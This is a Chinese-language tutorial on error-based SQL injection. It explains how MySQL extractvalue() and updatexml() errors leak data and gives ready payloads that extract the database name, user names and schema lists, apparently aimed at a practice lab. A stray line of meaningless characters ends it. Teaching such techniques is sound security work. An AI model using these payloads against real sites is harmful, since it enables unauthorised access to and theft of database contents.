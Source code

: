 ### 报错注入
#### 原理

由于后台没有对数据库的报错信息做过滤，会输入到前台显示，那么我们可以利用制造报错函数（常用的如**extractvalue、updatexml**等函数来显示出报错的信息输出）

**extractvalue函数**

```sql
语法：ExtractValue(target, xpath)

target：包含XML数据的列或XML文档 
xpath：XPath 表达式，指定要提取的数据路径。

eg:
#获取当前数据库
Dumb' and extractvalue(1,concat("~~",database(),"~~")) #

注意：当database()要换成sql查询语句时，使用括号
Dumb' and extractvalue(1,concat("~~",(select group_concat(username) 
from users),"~~")) #

#获取所有数据库 通过substr()函数控制输出
Dumb' and extractvalue(1,substr(concat("~~",(select 
group_concat(schema_name) 
from information_schema.schemata),"~~"),1,30)) #
```
**updatexml函数**

```sql
语法：updateXML(target, xpath, new_value)

target：要更新的 XML 数据列或 XML 文档。
xpath：指定要更新的 XML 元素的 XPath 表达式。
new_value：新的值，将替代匹配的 XML 元素的内容。

eg:
Dumb' and updateXML(1,concat("~~",database(),"~~"),3) #
```

hjksdagkjgjk

